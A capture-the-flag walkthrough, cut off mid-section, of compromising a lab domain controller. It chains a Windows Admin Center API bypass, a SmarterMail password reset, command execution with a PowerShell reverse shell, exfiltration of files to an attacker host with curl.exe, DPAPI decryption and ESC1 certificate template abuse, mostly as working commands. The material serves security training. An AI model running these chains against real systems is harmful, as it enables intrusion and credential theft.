


## Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Initial Access — Anonymous SMB Share](#initial-access--anonymous-smb-share)
3. [Windows Admin Center — CVE-2026-26119 RBAC Bypass](#windows-admin-center--cve-2026-26119-rbac-bypass)
4. [SmarterMail — CVE-2026-23760 Unauthenticated Sysadmin Password Reset](#smartermail--cve-2026-23760-unauthenticated-sysadmin-password-reset)
5. [SmarterMail Volume Mount RCE — Shell as svc_mail](#smartermail-volume-mount-rce--shell-as-svc_mail)
6. [Looting SmarterMail — The Encrypted Backup Password](#looting-smartermail--the-encrypted-backup-password)
7. [Reversing SmarterMail.Standard.dll — Hardcoded DES Keys](#reversing-smartermailstandarddll--hardcoded-des-keys)
8. [Lateral Movement to noah.b — User Flag](#lateral-movement-to-noahb--user-flag)
9. [DPAPI Offline Decryption — Saved Credential for alex.o](#dpapi-offline-decryption--saved-credential-for-alexo)
10. [ACL Abuse — alex.o ForceChangePassword over jake.h](#acl-abuse--alexo-forcechangepassword-over-jakeh)
11. [ADCS — Recreating a Dangling ESC1 Template as jake.h](#adcs--recreating-a-dangling-esc1-template-as-jakeh)
12. [ESC1 Exploitation — Administrator Certificate via PKINIT](#esc1-exploitation--administrator-certificate-via-pkinit)
13. [Root Flag](#root-flag)
14. [Loot Summary](#loot-summary)
15. [Appendix — Scripts](#appendix--scripts)


## Reconnaissance

### Nmap TCP Scan

Started with a standard Nmap service scan against the target:

```bash
$ sudo nmap -sC -sV [TARGET_IP] -oA danglingtree
```

```
Starting Nmap 7.99 ( https://nmap.org )
Nmap scan report for [TARGET_IP]
Host is up (0.052s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-14)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
6600/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Windows Admin Center
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Results:**

| Port | State | Service | Notes |
|------|-------|---------|-------|
| 53/88/389/636/3268/3269 | open | DNS / Kerberos / LDAP | Domain Controller, domain `danglingtree.htb` |
| 445 | open | SMB | File shares |
| 5985 | open | WinRM | Remote management |
| 6600 | open | HTTPS | **Windows Admin Center** — unusual, interesting |

Key observations:
- This is a Windows Domain Controller for `danglingtree.htb`, hostname `DC`.
- Port **6600** serves **Windows Admin Center (WAC)** — a web-based server management platform. Not commonly seen, worth investigating.
- No web server on 80/443, no mail ports exposed externally (relevant later).

### Host Configuration

Added the target to `/etc/hosts` and synced the clock (AD crypto hates skew):

```bash
$ sudo ntpdate [TARGET_IP]
$ echo "[TARGET_IP] dc.danglingtree.htb danglingtree.htb dc" | sudo tee -a /etc/hosts
```

### SMB Anonymous Enumeration

Checked for anonymous SMB access:

```bash
$ smbclient -N -L //[TARGET_IP]/
```

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ITShare         Disk      IT Department Files
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
```

`ITShare` is a non-default share — worth a look.


## Initial Access — Anonymous SMB Share

### Reading the ITShare

Anonymous (null session) read access was allowed on `ITShare`:

```bash
$ smbclient -N //[TARGET_IP]/ITShare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  ...
  ..                                  D        0  ...
  onboarding.txt                      A      512  ...

smb: \> get onboarding.txt
```

The file contained credentials left behind by the IT department:

```
Welcome to the DanglingTree IT team!

Temporary account for new admins:
  Username: anderson.w
  Password: R3dT3am@Acc3ss#01

Please change the password after first login and use the Admin Center
(https://dc:6600) for server management.
```

### Validating the Credentials

```bash
$ nxc smb [TARGET_IP] -u anderson.w -p 'R3dT3am@Acc3ss#01'
SMB         [TARGET_IP]   445    DC    [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:danglingtree.htb)
SMB         [TARGET_IP]   445    DC    [+] danglingtree.htb\anderson.w:R3dT3am@Acc3ss#01
```

Valid domain credentials: **`anderson.w / R3dT3am@Acc3ss#01`**. The note points directly at the Windows Admin Center on port 6600.


## Windows Admin Center — CVE-2026-26119 RBAC Bypass

### The Login

Browsing to `https://[TARGET_IP]:6600` presents the Windows Admin Center login page. The `anderson.w` credentials work:

Once inside, the UI blocks us: `anderson.w` is **not authorized** to manage the `dc` node — a Role-Based Access Control (RBAC) error page is shown instead of the management tools.




### The Vulnerability

**CVE-2026-26119** — Windows Admin Center exposes a REST API (`/api/services/WinREST/...`) that performs **no independent authorization check** on top of authentication. The RBAC role gates are enforced only in the UI layer. Any authenticated domain user — even one explicitly denied by RBAC — can call the PowerShell `invokeCommand` endpoint directly and execute commands on managed nodes.

In other words: the UI says "Access Denied", but the API doesn't check.

### Exploiting the API Directly

Grab a valid session from the browser (F12 → Network → copy any POST as cURL) and extract the full `Cookie` header plus the `x-xsrf-token` value. Then call the `invokeCommand` endpoint against the `dc` node:

```bash
$ curl -sk "https://[TARGET_IP]:6600/api/services/WinREST/PowerShell/nodes/dc/invokeCommand" \
    -H "x-ms-sme-jea-endpoint: http://schemas.microsoft.com/powershell/Microsoft.PowerShell" \
    -H "x-ms-sme-module-name: msft.sme.shell" \
    -H "x-xsrf-token: <XSRF_TOKEN>" \
    -H "Cookie: <FULL_COOKIE_STRING>" \
    -H "Content-Type: application/json" \
    --data '{"properties":{"script":"whoami; hostname","state":"ready","useInProcRunspace":false,"invokeMode":"Polling"}}'
```

```json
{"results":["danglingtree\\anderson.w","dc"]}
```

**Code execution on the Domain Controller as `anderson.w`** — despite the RBAC block. The critical header is `x-ms-sme-jea-endpoint`; without it the API responds with `Cannot find the microsoft.sme.powershell session configuration`.

To make this repeatable, the whole channel was wrapped in a driver script (`svc_mail_reentry.sh` — full source in the [Appendix](#appendix--scripts)) that builds the JSON with `jq`, wraps arbitrary PowerShell as UTF-16LE base64 `iex` (killing all quoting problems), and pretty-prints results:

```bash
$ export BOX=[TARGET_IP]
$ export XSRF='<x-xsrf-token value>'
$ export COOKIE='<full cookie string>'
$ ./svc_mail_reentry.sh check
[*] WAC whoami sanity check (expect danglingtree\anderson.w / dc)...
"results":["danglingtree\\anderson.w","dc"]
```

> **Gotcha:** WAC tokens rotate within minutes. `InvalidXsrfToken` means: re-copy a fresh request from the browser — don't debug anything else.


## SmarterMail — CVE-2026-23760 Unauthenticated Sysadmin Password Reset

### Enumeration from the DC

With command execution on the DC, local enumeration revealed a **SmarterMail** mail server installation (`C:\SmarterMail`) with its service/API bound to **loopback only**:

```powershell
$ ./svc_mail_reentry.sh run "Get-NetTCPConnection -State Listen | ? {$_.LocalPort -in 17017,9998} | Select LocalAddress,LocalPort"
LocalAddress LocalPort
----------- ---------
127.0.0.1       17017
```

Port **17017** is the SmarterMail management API — unreachable from the outside, but reachable through our WAC execution channel. This is exactly why the box chains WAC → SmarterMail: the mail server is "internal only".

### The Vulnerability

**CVE-2026-23760** — SmarterMail's API endpoint `/api/v1/auth/force-reset-password` fails to authenticate the caller. Anyone who can reach the API can reset the password of any account, including the **system administrator**, by simply posting a JSON body with the target username and a new password. The `OldPassword` field is not verified.

### Resetting the Sysadmin Password

Through the WAC channel, hit the loopback API and force-reset the built-in sysadmin account `svc_mail`:

```bash
$ ./svc_mail_reentry.sh reset
[*] CVE-2026-23760: force-reset SmarterMail sysadmin 'svc_mail'...
```

Which fires this against `http://127.0.0.1:17017`:

```powershell
Invoke-RestMethod -Uri 'http://127.0.0.1:17017/api/v1/auth/force-reset-password' -Method Post `
  -ContentType 'application/json' `
  -Body '{"IsSysAdmin":"true","OldPassword":"x","Username":"svc_mail","NewPassword":"Hacked123!@#","ConfirmPassword":"Hacked123!@#"}'
```

```json
{"success":true}
```

We now control the SmarterMail **system administrator** account: `svc_mail / Hacked123!@#`.


## SmarterMail Volume Mount RCE — Shell as svc_mail

### The Feature

SmarterMail has a legitimate sysadmin feature: **volume mounts** with pre/post mount commands (`/api/v1/settings/sysadmin/AddOrUpdateMount`). `CommandMount` is executed by the SmarterMail service — which runs as the domain service account **`svc_mail`** — whenever the mount is saved/validated. That's authenticated RCE by design.

### Weaponizing It

Two steps, both through the WAC channel:

1. `POST /api/v1/auth/authenticate-user` with `svc_mail / Hacked123!@#` → grab the `accessToken`.
2. `POST /api/v1/settings/sysadmin/AddOrUpdateMount` with a Bearer token and a body whose `CommandMount` is a base64-encoded PowerShell reverse shell.

The body must be **PascalCase** (`MountPath`, `CommandMount`, `CommandUnmount`, `Enabled`) and the payload must be in `powershell -nop -enc <UTF16LE-b64>` form — any quotes/parens/semicolons in the raw command get mangled on the way through.

```powershell
$t = ((Invoke-WebRequest -Uri 'http://127.0.0.1:17017/api/v1/auth/authenticate-user' -Method Post `
      -ContentType 'application/json' -Body '{"username":"svc_mail","password":"Hacked123!@#"}' `
      -UseBasicParsing).Content | ConvertFrom-Json).accessToken
$h = @{Authorization = ('Bearer ' + $t)}
$mp = 'C:\Windows\Temp\rce' + (Get-Random)
$body = @{MountPath=$mp; CommandMount='powershell -nop -enc <UTF16LE_B64_REVSHELL>'; CommandUnmount=''; Enabled=$true} | ConvertTo-Json
Invoke-WebRequest -Uri 'http://127.0.0.1:17017/api/v1/settings/sysadmin/AddOrUpdateMount' -Method Post `
  -Headers $h -ContentType 'application/json' -Body $body -UseBasicParsing | Out-Null
```

The API responds with `Failed to mount: X` — **this is expected**. The mount itself fails (the path is junk), but `CommandMount` has already executed during validation.

### Catching the Shell

Egress from the DC is heavily filtered — only ports **443** and **8001** were confirmed open outbound (ICMP is filtered, so don't canary with ping). Listener on 443:

```bash
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [ATTACKER_IP] from (UNKNOWN) [[TARGET_IP]] 51432
PS C:\Windows\system32> whoami
danglingtree\svc_mail
PS C:\Windows\system32> hostname
dc
```

**Shell on the DC as `danglingtree\svc_mail`.**




## Looting SmarterMail — The Encrypted Backup Password

### The Backup Domain Folder

Enumerating the SmarterMail data directory turned up a **backup copy of the entire domain configuration**, including per-user settings:

```powershell
PS C:\> ls "C:\SmarterMail\Domains\"
danglingtree.htb
danglingtree.htb.bak        <-- backup copy, world-readable

PS C:\> type "C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b\settings.json"
```

Inside `noah.b`'s backed-up `settings.json`:

```json
{
  "Username": "noah.b",
  "AuthType": "ActiveDirectory",
  "password_encrypted": "66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby",
  ...
}
```

A base64-looking ciphertext: `66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby` — decodes to exactly **24 bytes**, i.e. a multiple of an 8-byte block size. Smells like DES or RC2. The question is the key.

### Grabbing the DLL

The encryption must be implemented somewhere in the SmarterMail server binaries. Exfiltrated the core library to Kali (Kali side: a tiny PUT-upload server on port 8001 — see [Appendix](#appendix--scripts); target side: `curl.exe` — both present by default):

```powershell
PS C:\> curl.exe -T "C:\SmarterMail\Service\SmarterMail.Standard.dll" http://[ATTACKER_IP]:8001/SmarterMail.Standard.dll
```

> **Gotcha that cost real time:** a `501 Unsupported method ('PUT')` means the thing listening on 8001 is a GET-only `python3 -m http.server`, not the PUT handler. Check with `ss -lntp | grep 8001` before blaming the payload.


## Reversing SmarterMail.Standard.dll — Hardcoded DES Keys

### Finding the Crypto Code

The DLL is a .NET assembly, so `monodis` gives us the type layout and full IL:

```bash
$ sudo apt install -y mono-utils
$ monodis --typedef /tmp/SmarterMail.Standard.dll | grep -iE 'crypt|password|setting'
...
142: MailService.Common.CryptographyHelper
...
```

`CryptographyHelper` is the class. Its static constructor and fields reveal how keys are stored:

```bash
$ monodis --fields /tmp/SmarterMail.Standard.dll | grep -iA2 crypt
########## MailService.Common.CryptographyHelper
    1: field static valuetype [System.Runtime]System.ValueTuple`2<uint8[], uint8[]> keymap1
    2: field static valuetype [System.Runtime]System.ValueTuple`2<uint8[], uint8[]> keymap2
```

Two static `ValueTuple<byte[], byte[]>` fields — key + IV pairs. The decryption method picks between algorithms:

```bash
$ monodis /tmp/SmarterMail.Standard.dll > /tmp/sm.il
$ grep -inE 'decrypt|DES|RC2|keymap' /tmp/sm.il | head -30
```

The IL for the decrypt routine (trimmed) shows the algorithm selection:

```il
// Method == 0  -> DES
// else         -> RC2
call  class [System.Security.Cryptography]...DES::Create()
...
ldsflda valuetype ... CryptographyHelper::keymap2
```

And the static constructor initializes both tuples from **static-array blobs** in `<PrivateImplementationDetails>` — this is how C# compiles `byte[]` literals: the raw bytes sit in the PE's data section, referenced by field RVA:

```il
.method private static void .cctor()
{
    ...
    ldsflda valuetype '<PrivateImplementationDetails>' '__StaticArrayInitTypeSize=8'
        '<PrivateImplementationDetails>'::'6358808B9D2E7DAF789A729078B45CE267623E1A58204EE85C2164107BC22759'
    // -> keymap1.key (8 bytes)
    ldsflda valuetype '<PrivateImplementationDetails>' '__StaticArrayInitTypeSize=8'
        '<PrivateImplementationDetails>'::'70992CDC3F000761B083836A71E62B39CDE2DDEFB3CE16B3ECA702337DEFB01E'
    // -> keymap1.iv (8 bytes)
    ldsflda ... '3EFEA1DC9873C47136B982B90E487430FD222964ECE883624E0751568E470AB5'   // -> keymap2.key
    ldsflda ... '2ED3CD73F7820445EE9578F8EDED5E522B6711F3F0F10C2FDFC49363B4F35A44'   // -> keymap2.iv
}
```

Those long hex names are the field names of the raw byte blobs — not the values. The values are 8 raw bytes at each field's RVA in the file.

### Extracting the Blobs and Brute-Trying DES/RC2

Rather than parsing RVAs by hand, `dnfile` reads the `FieldRva` metadata table directly. The script maps each blob field name → 8 raw bytes, then tries every (key, IV) pair against the ciphertext with both DES and RC2, validating PKCS7 padding (full source in the [Appendix](#appendix--scripts)):

```bash
$ pip install dnfile pycryptodome
$ python3 decrypt.py
```

```
[*] blob 'keymap1.key' = 7d71e8e9a0227bd0
[*] blob 'keymap1.iv'  = e0de080e1d8a8bdf
[*] blob 'keymap2.key' = b43f84d110b4e991
[*] blob 'keymap2.iv'  = 01d8aee649ad9227
[*] trying DES  keymap1... no
[*] trying DES  keymap2...
[HIT] keymap2 DES : b'RiverDragon#Storm25'
```

(First run died with `AttributeError: 'ClrData' object has no attribute 'mdtable'` — the correct attribute is `pe.net.mdtables.FieldRva`, plural.)

**Recovered plaintext: `RiverDragon#Storm25`** — the Active Directory password of **noah.b** (the account's `AuthType` is `ActiveDirectory`, so the stored password is the domain password).

Key takeaways:
- Hardcoded DES key/IV: `b43f84d110b4e991` / `01d8aee649ad9227` (keymap2).
- The whole "encryption" of stored SmarterMail passwords is security by obscurity — anyone with the DLL can decrypt any backup.


## Lateral Movement to noah.b — User Flag

### Shell as noah.b via RunasCs

With a plaintext domain password, the cleanest path from the WAC/svc_mail execution context is [RunasCs](https://github.com/antonioCoco/RunasCs) — spawn a process as another user without needing their token:

```bash
# Kali: fetch + serve RunasCs
$ wget -q https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip && unzip -o RunasCs.zip
$ python3 -m http.server 8001 &

# push to the DC through WAC (8001 is confirmed open outbound)
$ ./svc_mail_reentry.sh run "curl.exe -s -o C:\Windows\Temp\RunasCs.exe http://[ATTACKER_IP]:8001/RunasCs.exe"

# Kali terminal 2: listener
$ nc -lvnp 4445

# fire the reverse shell as noah.b
$ ./svc_mail_reentry.sh run "C:\Windows\Temp\RunasCs.exe noah.b 'RiverDragon#Storm25' powershell -r [ATTACKER_IP]:4445 -d danglingtree"
```

```
listening on [any] 4445 ...
connect to [ATTACKER_IP] from (UNKNOWN) [[TARGET_IP]] 51620
PS C:\Windows\system32> whoami
danglingtree\noah.b
```

### User Flag

```powershell
PS C:\> type C:\Users\noah.b\Desktop\user.txt
<USER FLAG>
```

**User flag captured.**


## DPAPI Offline Decryption — Saved Credential for alex.o

### A Saved Windows Credential

Enumerating noah.b's context turned up a **saved credential** in Credential Manager:

```powershell
PS C:\Users\noah.b> cmdkey /list

Currently stored credentials:

    Target: Domain:target=PC01.danglingtree.htb
    Type: Domain Password
    User: alex.o
    Persisted for this logon session
```

A stored domain password for **alex.o**, scoped to `PC01.danglingtree.htb`. First instinct — `runas /savecred`:

```powershell
PS C:\Users\noah.b> runas /savecred /user:alex.o powershell
Enter the password for alex.o:
```

It **prompts for the password anyway**: the saved credential is scoped to the `PC01` target, unusable for a local logon. So we decrypt it offline instead.

### The DPAPI Blob and Masterkey

Saved cmdkey credentials are DPAPI credential blobs under `%APPDATA%\Microsoft\Credentials`, encrypted with the user's masterkey from `%APPDATA%\Microsoft\Protect\<SID>` (files are hidden — `dir -Force`):

```powershell
PS C:\> dir -Force "$env:APPDATA\Microsoft\Credentials"
    57FFB67D684C67F09E7153B9C7CC3940        <-- the credential blob
    ...

PS C:\> dir -Force "$env:APPDATA\Microsoft\Protect"
    S-1-5-21-4220238332-57023728-1129110646-1602   <-- noah.b's SID

PS C:\> dir -Force "$env:APPDATA\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602"
    b2a3257d-...
    BK-DANGLINGTREE
    f53fcaba-f057-48e8-8f92-0180d274bf0f   <-- masterkey file (matches the blob's GUID)
    Preferred
```

Exfiltrated both files over the PUT server:

```powershell
PS C:\> curl.exe -T "$env:APPDATA\Microsoft\Credentials\57FFB67D684C67F09E7153B9C7CC3940" http://[ATTACKER_IP]:8001/cred.bin
PS C:\> curl.exe -T "$env:APPDATA\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\f53fcaba-f057-48e8-8f92-0180d274bf0f" http://[ATTACKER_IP]:8001/mk1.bin
```

### Decrypting Offline

We have everything DPAPI needs: the masterkey file, the user's **plaintext password** (`RiverDragon#Storm25`, from the DES crack), and the user's SID. `impacket-dpapi` does the rest — first derive the masterkey:

```bash
$ impacket-dpapi masterkey -file /tmp/mk1.bin -password 'RiverDragon#Storm25' \
    -sid S-1-5-21-4220238332-57023728-1129110646-1602
```

```
Decrypted key: 0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
```

Then decrypt the credential blob with it:

```bash
$ impacket-dpapi credential -file /tmp/cred.bin -key 0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
```

```
[CREDENTIAL]
LastWritten : ...
Flags       : 0x00000030
Persist     : 0x00000002
Type        : 0x00000002
Target      : Domain:target=PC01.danglingtree.htb
Description :
Unknown     :
Username    : alex.o
Unknown3    : SunsetMountainPeak@2025
```

**New credentials: `alex.o / SunsetMountainPeak@2025`.**

> Note the chain so far: DES-reversed password (noah.b) is exactly what unlocks noah.b's DPAPI masterkey, which decrypts the *next* user's credential (alex.o). The box is literally a dangling tree of stored secrets.


## ACL Abuse — alex.o ForceChangePassword over jake.h

### Mapping the Path

Running a BloodHound collector as `alex.o` and tracing outbound control revealed the edge that matters:

```
alex.o --[ForceChangePassword]--> jake.h
```

`alex.o` has **ForceChangePassword** (the `User-Force-Change-Password` extended right) over the user **jake.h** — we can reset jake.h's password without knowing the old one.

### Resetting jake.h's Password

`rpcclient setuserinfo2` failed silently; **bloodyAD** did it cleanly from Kali:

```bash
$ bloodyAD --host [TARGET_IP] -d danglingtree.htb -u alex.o -p 'SunsetMountainPeak@2025' \
    set password jake.h 'Pwned123!@#'
```

```
[+] Password changed successfully!
```

### Shell as jake.h

RunasCs with the fresh password. Two logon-type gotchas here:

- Default logon type **2 (interactive)** is denied: `RunasCsException: Selected logon type '2' is not granted to the user 'alex.o' / 'jake.h'`.
- `-l 3` (network logon) alone gets silently reverted — it must be combined with `--remote-impersonation`.

```powershell
PS C:\> C:\Windows\Temp\RunasCs.exe jake.h 'Pwned123!@#' powershell -r [ATTACKER_IP]:4446 -d danglingtree --remote-impersonation -l 3
```

```
listening on [any] 4446 ...
connect to [ATTACKER_IP] from (UNKNOWN) [[TARGET_IP]] 51711
PS C:\Windows\system32> whoami
danglingtree\jake.h
```

(Also worth noting: jake.h had **no profile and no write access to `C:\Windows\Temp`** — work out of `C:\Users\Public`, and pass `--force-profile` if a tool needs a user profile. The `certreq`-based enrollment path died exactly there — CSP initialization needs a profile — which is why we later enrolled from Kali with certipy instead.)


## ADCS — Recreating a Dangling ESC1 Template as jake.h

### The Setup

jake.h's BloodHound edges:

```
jake.h --[CreateChild]--> CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
jake.h --[CreateChild]--> CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
```

jake.h can **create child objects** under both the Certificate Templates container and the OID container — but has no write access to *existing* templates. So the box's namesake move: the CA (`danglingtree-DC-CA`) publishes certificate templates **that have been deleted** — "dangling" template names. jake.h can't edit templates, but he can **recreate a deleted one from scratch** with attacker-controlled settings.

Checking what the CA publishes vs. what exists:

```powershell
PS C:\> $configNC = (Get-ADRootDSE).configurationNamingContext
PS C:\> Get-ADObject "CN=danglingtree-DC-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,$configNC" -Properties certificateTemplates | Select -Expand certificateTemplates
RemoteAccessVPN
EmployeeAuthTemplate
VPNUserTemplate
User
...

PS C:\> Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,$configNC" -Filter * | Select Name
# ... RemoteAccessVPN, EmployeeAuthTemplate and VPNUserTemplate are NOT in the list
```

Three published template names — `RemoteAccessVPN`, `EmployeeAuthTemplate`, `VPNUserTemplate` — **do not exist** in the Certificate Templates container. If we recreate one with `ENROLLEE_SUPPLIES_SUBJECT` (msPKI-Certificate-Name-Flag = 1), domain-authentication EKUs, and enrollment rights for ourselves, it's a textbook **ESC1**: request a certificate for *any* UPN — say, `administrator@danglingtree.htb`.

### Step 1 — The OID Object

A schema-version-2 template needs a matching `msPKI-Enterprise-Oid` object under the OID container (this is where jake.h's second CreateChild right comes in):

```powershell
$domainDN = (Get-ADDomain).DistinguishedName
$configNC = (Get-ADRootDSE).configurationNamingContext
$pks = "CN=Public Key Services,CN=Services,$configNC"
$oidPath = "CN=OID,$pks"

New-ADObject -Name 'RemoteAccessVPN' -Type 'msPKI-Enterprise-Oid' -Path $oidPath -OtherAttributes @{
    'DisplayName' = 'RemoteAccessVPN'
    'flags' = 2
    'msPKI-Cert-Template-Oid' = '1.3.6.1.4.1.311.21.8.12345678.87654321.13579.24680.11223344.55667788.1234567'
}
```

### Step 2 — The Template Object (v1)

Created `RemoteAccessVPN` as a `pKICertificateTemplate` with attributes copied from the built-in `User` template, plus `msPKI-Certificate-Name-Flag = 1` (`ENROLLEE_SUPPLIES_SUBJECT`). First attempt failed with:

```
New-ADObject : The security ID may not be assigned as the owner of the object   (error 1307)
```

The SDDL owner was `O:DA` — jake.h can't create an object owned by Domain Admins. Fix: set owner/group to jake.h's own SID (`S-1-5-21-4220238332-57023728-1129110646-1103`). Full `tpl.ps1` is in the [Appendix](#appendix--scripts).

### Step 3 — CERTSRV_E_UNSUPPORTED_CERT_TYPE

With the template created, enrollment attempts from Kali:

```bash
$ certipy req -u 'jake.h@danglingtree.htb' -p 'Pwned123!@#' -dc-ip [TARGET_IP] -target [TARGET_IP] \
    -ca 'danglingtree-DC-CA' -template 'RemoteAccessVPN' -upn 'administrator@danglingtree.htb'
```

```
[!] Got error: The requested certificate template is not supported by this CA. (CERTSRV_E_UNSUPPORTED_CERT_TYPE)
```

The CA couldn't even see the template. Root cause: the CA reads AD **as SYSTEM/DC$** — our hand-written DACL only had jake.h. Rewriting the DACL (via `Set-ADObject -Replace @{nTSecurityDescriptor=...}` with the binary form of an SDDL containing SYSTEM/DA/EA full-control ACEs — plain `Set-Acl` fails because it tries to write the owner) made it visible:

```powershell
PS C:\> certutil -catemplates | findstr /i remote
RemoteAccessVPN: RemoteAccessVPN -- ...
```

### Step 4 — CERTSRV_E_TEMPLATE_DENIED, and the Long Hunt

Progress, then a new wall:

```
[!] Got error: The requested certificate template is denied by the CA. (CERTSRV_E_TEMPLATE_DENIED)
```

The DACL looked perfect — certipy agreed:

```bash
$ certipy find -u 'jake.h@danglingtree.htb' -p 'Pwned123!@#' -dc-ip [TARGET_IP] -vulnerable
```

```
[*] Template Name: RemoteAccessVPN
    msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
    Enrollable Principals       : jake.h
    [!] Vulnerabilities: ESC1 — enrollee supplies subject, enrollee has enroll rights
```

ESC1 on paper, denied in practice. Two more templates (`EmployeeAuthTemplate`, `VPNUserTemplate`) — same result. Hours of dead ends:

| Attempt | Result |
|---|---|
| bloodyAD SDDL write from Kali | Crash — winacl can't parse combined rights strings (`ValueError: invalid literal for int() base 16 'CCDCLCSWRPWPDTLOSDRCWDWO'`) |
| `Set-Acl` on the AD path | Access denied (tries to write owner) |
| `Set-ADObject -Replace @{nTSecurityDescriptor=$sd.GetSecurityDescriptorBinaryForm()}` | **Works** — DACL-only rewrite, owner untouched |
| Explicit Enroll ACE for jake.h (GUID `0e10c968-78f3-11d2-90cc-00c04fd91ab1`) | Still TEMPLATE_DENIED |
| `certreq -new` on-target | CSP failure — jake.h had no profile (`--force-profile` fixes the profile, CSP still fails) → abandoned |
| `certipy req -template User` (control test) | **Hangs at NETBIOS level / times out** — not an error. Valid requests pass policy and the CA is just *slow issuing*. A hanging request is a GOOD sign; instant denial is a bad one. Use `-timeout 240` and patience. |

### Step 5 — The CA's Event Log Tells the Truth

The breakthrough: the **Application event log on the DC is readable by a low-priv user**, and the CA logs template load failures there:

```powershell
PS C:\> Get-WinEvent -FilterHashtable @{LogName='Application'} -MaxEvents 300 |
        Where-Object {$_.Message -match 'jake|RemoteAccess|EmployeeAuth|VPNUser'} |
        Select-Object -First 6 TimeCreated, Id, Message | fl
```

```
TimeCreated : 8/14/2026 ...
Id          : 77
Message     : The "VPNUserTemplate" certificate template could not be loaded.
              Element not found. (msPKI-Template-Minor-Revision)

TimeCreated : 8/14/2026 ...
Id          : 53
Message     : Request denied ... jake.h ... RemoteAccessVPN ...
```

**Event 77** is the smoking gun: our hand-rolled templates were **failing to load entirely** — missing mandatory attributes one by one (`msPKI-Template-Minor-Revision`, then more). A template that can't load gets TEMPLATE_DENIED/UNSUPPORTED no matter how perfect its DACL is. The `certipy find` output was reading the *object*, not the *loaded template* — that's why it claimed ESC1 while the CA denied everything.

### Step 6 — Full Attribute Parity (the User-Twin Approach)

Fix strategy: stop hand-picking attributes and **copy every attribute from the real, working `User` template**, then flip the ESC1 bit. The iterative fix script (full source in the [Appendix](#appendix--scripts)) did:

1. Read all attributes of `CN=User,CN=Certificate Templates,...`
2. `-Replace` them onto `VPNUserTemplate`, **guarding nulls** (`$null -ne $u.$_` — `-Replace` errors on unset attributes) and skipping name/DN/objectClass
3. `-Add` the ones the target didn't have yet
4. Re-flip `msPKI-Certificate-Name-Flag = 1`

Which surfaced the final missing trio:

```
MISSING on VPNUserTemplate: msPKI-Minimal-Key-Size, msPKI-Private-Key-Flag, msPKI-RA-Signature
```

… but `-Add` then failed with **Insufficient access rights** — the copied User-twin DACL no longer included jake.h with write access. Since jake.h is the **owner**, he can rewrite the DACL to re-grant himself full control. The two final winning oneliners:

```powershell
# 1) Owner re-adds his own full-control ACE (DACL rewrite, owner preserved):
$configNC=(Get-ADRootDSE).configurationNamingContext
